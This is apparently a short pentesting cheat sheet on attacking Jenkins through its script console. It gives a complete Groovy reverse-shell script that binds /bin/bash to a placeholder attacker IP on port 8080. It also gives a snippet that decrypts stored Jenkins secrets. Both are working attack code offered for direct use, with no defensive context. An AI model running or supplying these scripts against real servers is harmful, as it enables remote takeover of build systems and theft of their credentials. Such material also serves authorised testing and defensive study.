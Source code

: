 # Jenkins

## Reverse Shell via Jenkins

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to send you the reverse shell on port 8080:
```
String host="ATTACKERS-IP-HERE";
int port=8080;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

> Don't forget setting you listener before run the script

## Decoding a Jenkins encripted password

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to decode the encripted information

```
hashed_pw='{ENC_PASS_HERE}'
passwd = hudson.util.Secret.decrypt(hashed_pw)
println(passwd)
```
